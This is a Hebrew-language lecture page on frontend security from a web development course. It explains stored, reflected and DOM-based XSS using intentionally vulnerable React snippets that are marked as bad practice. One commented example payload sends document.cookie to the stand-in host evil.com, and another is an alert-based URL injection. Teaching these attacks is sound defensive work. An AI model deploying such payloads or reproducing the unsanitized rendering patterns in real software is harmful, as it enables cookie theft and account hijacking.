

repository: AmitPinchasi/amittech · page: צד-לקוח/11 - נושאים מתקדמים וסיום/11.1 - אבטחת פרונטאנד/11.1 - אבטחת פרונטאנד - הרצאה/index.html · generator: mkdocs

## אבטחת פרונטאנד - Frontend Security

אבטחת מידע באפליקציות ווב היא אחד הנושאים החשובים ביותר בפיתוח מודרני. התקפות על צד הלקוח יכולות לחשוף מידע רגיש, לפגוע במשתמשים ולגרום נזק עסקי חמור. בשיעור זה נלמד על ההתקפות הנפוצות ביותר וכיצד למנוע אותן.

## סקריפטים בין-אתריים - XSS (Cross-Site Scripting)

התקפת XSS מתרחשת כאשר תוקף מצליח להזריק קוד JavaScript זדוני לדף ווב שמוצג למשתמשים אחרים. זו אחת ההתקפות הנפוצות ביותר.

#### סוגי XSS

**Stored XSS** - הקוד הזדוני נשמר בשרת (למשל בתגובה בפורום) ומוצג לכל משתמש:

```tsx
// Example of vulnerable code - displaying content from the server without sanitization
function Comment({ comment }: { comment: { text: string } }) {
  // Never do this!
  return <div dangerouslySetInnerHTML={{ __html: comment.text }} />;
}

// The attacker saves a comment with malicious content:
// <script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

![תרשים זרימה של התקפת Stored XSS: התוקף שומר תגובה עם סקריפט זדוני בשרת, וכאשר אין סניטציה הסקריפט רץ בדפדפן של הקורבן ושולח את העוגייה לתוקף](../../../images/illustrations/client-11-1-stored-xss-flow.svg)

**Reflected XSS** - הקוד הזדוני מגיע כחלק מה-URL ומוחזר בתגובת השרת:

```
https://example.com/search?q=<script>alert('XSS')</script>
```

**DOM-based XSS** - הקוד הזדוני מבוצע ישירות בצד הלקוח ללא מעורבות השרת:

```tsx
// Vulnerable code - using the URL without sanitization
function SearchPage() {
  const params = new URLSearchParams(window.location.search);
  const query = params.get('q') || '';

  // Vulnerable! The input is injected directly into the DOM
  document.getElementById('results')!.innerHTML = `Results for: ${query}`;

  return null;
}
```
